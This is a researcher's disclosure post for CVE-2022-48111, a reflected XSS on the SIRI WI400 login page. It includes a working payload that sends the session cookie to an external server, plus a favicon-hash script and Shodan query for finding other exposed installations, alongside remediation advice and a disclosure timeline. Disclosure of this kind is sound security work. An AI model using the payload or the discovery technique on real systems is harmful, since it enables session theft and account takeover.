 ```yaml
---
title: CVE-2022-48111
layout: post
post-image: /assets/images/wi400/0.wi400_cover.jpg
description: This post makes public a vulnerability I happened to discover during one of my activities as a Penetration Tester.
tags:
  - how to
  - cybersecurity
  - vulnerability
  - CVE-2022-48111
  - XSS
  - cookie exfiltration
---
```


# SIRI WI400: XSS on Login Page – CVE-2022-48111

WI400 is a software developed by SIRI that acts as a web interface for the IBM Power Systems (AS/400). During a penetration test activity I found a reflected cross-site scripting (XSS) vulnerability on the login page. This allowed to craft URLs with arbitrary JavaScript code injected that would execute once the link was visited.

![SIRI WI400 Login Page](/assets/images/wi400/1.wi400_login_page.png)

## Advisory – CVE-2022-48111

A cross-site scripting (XSS) vulnerability in the check_login function of S.I.R.I. s.r.l WI400 between v.8 and v.11 included allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “f” parameter.

## Technical Details

During a black-box penetration test activity carried out on the WI400 v9.5 emerged the possibility to reflect some parameters in the server response. By further investigating the matter, I found out that the login page was vulnerable to reflected cross-site scripting attacks. Once confirmed, it was possible to exfiltrate the session cookie. In a likely scenario an attacker could, for example, steal it by means such as a phishing attack and log into the system impersonating the victim.

As a proof of concept, rather than popping up an alert printing the cookie, the JavaScript payload was crafted as a XMLHttpRequest that would send the token to an external server.

The following is a POC snippet of the request with the payload used to verify and confirm the above mentioned vulnerability.

```
GET /WI400/index.php?t=CHECK_LOGIN&f=";const+req+%3d+new+XMLHttpRequest()%3breq.open("GET",+"https%3a//[REDACTED]/"%2bdocument.cookie)%3breq.send();var+tail="y
HTTP/1.1
Host: [REDACTED]
Cookie: PHPSESSID=o7p2j3i1a14sb1fp8e1s1hhuv7
[…]
```

In the server response it can be seen that the payload is returned without proper sanitization so the JavaScript code executes correctly once the URL is visited.

```javascript
HTTP/1.1 200 200
[…]

<!DOCTYPE html>
[…]
    var FOCUSED_FIELD = "";
    var FOCUSED_TAB ="";
    var REFRESH_FOCUS = false;
    var __WI400_HMAC = "";
    var __WI400_SESSION = "";
    var CURRENT_ACTION = "CHECK_LOGIN";
    var CURRENT_FORM = "";const req = new XMLHttpRequest();req.open("GET", "https://[REDACTED]/"+document.cookie);req.send();var tail="y";
[…]
```

In fact, as one can see in the picture below, the code executes on the target and the user session cookie is successfully exfiltrated to the “attacker” server.
![Session cookie exfiltrated to attacker server](/assets/images/wi400/2.wi400_stolen_cookie-redacted.png)

In order to exploit the vulnerability **no authentication is necessary**.

To understand if other versions of the software were subsceptible to the same kind of vulnerability, I needed to find other installations of the same.
To do so, I used what is, in my optinion, a pretty nifty trick. I calculated tha favicon hash with this python script:

```python
import mmh3
import requests
import codecs

response = requests.get('https://[REDACTED]/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
```

and then we looked it up on Shodan with the following query:
`http.favicon.hash:[REDACTED]`

A pretty cool tool that does the same thing but I didn't know at the time is [Fav-up](https://github.com/pielco11/fav-up).

After comparing the codebase in the new-found installations with the one I was testing, I was able to confirm that multiple versions of the software were vulnerable to the same XSS. The vendor was promptly notified of the findings.

## Recommendations

If your version of the WI400 software is included between 8 and 11 you can choose one of the following:

- Enable the “safe mode” that can be activated on request by SIRI since v.8
- Update the software to the latest release

## Resolutions from SIRI

> We recommend all our customers to activate the “safe mode”. In future releases the parameter will be enabled by default and cannot be disabled. \
> Contact the [help desk](mailto:info@siri-informatica.it) for further information.

## Disclosure Timeline

- 14/12/2022 – Initial contact with SIRI
- 16/12/2022 – SIRI acknowledges the problem and decides to work with Yarix for a coordinated disclosure
- 02/02/2023 – MITRE assigned CVE-2022-48111 to the vulnerability
- 02/03/2023 – Full disclosure

## Resources & References

- [https://www.wi400.com/](https://www.wi400.com/)
- [CVE-2022-48111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-48111)
